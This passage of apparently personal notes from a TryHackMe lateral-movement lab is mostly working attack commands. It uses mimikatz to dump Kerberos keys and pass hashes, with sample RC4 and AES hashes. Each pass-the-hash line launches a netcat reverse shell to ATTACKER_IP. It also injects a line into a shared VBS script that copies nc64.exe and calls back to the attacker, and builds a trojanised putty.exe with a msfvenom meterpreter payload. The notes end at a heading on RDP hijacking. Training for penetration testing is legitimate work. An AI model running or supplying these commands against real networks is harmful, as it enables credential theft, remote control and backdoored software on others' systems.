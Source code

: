 #### 3.2.2. Overpass-the-hash / Pass-the-Key

* On the victim Windows machine:

```powershell
# mimikatz

# obtain the kerberos encryption keys from memory
> privilege::debug
> sekurlsa::ekeys

# if we have the RC4 hash:
> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

# if we have the AES128 hash:
> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

# if we have the AES256 hash
> sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

* On the attacker machine - start a listener to receive the reverse shell:

```bash
$ nc -lvp 5556
```

## 4. Abusing User Behaviour

Abusing Writable Shares = find a shortcut to a script or executable file hosted on a network share

### 4.1. Backdooring .vbs Scripts

```powershell
# if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the code into the script:
> CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe ATTACKER_IP 1234", 0, True
# this will send a reverse shell to the attacker
```

### 4.2. Backdooring .exe Files

```powershell
# example: create a backdoored putty.exe
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
# replace the executable on the windows share with the backdoored one
```

### 4.3. RDP hijacking
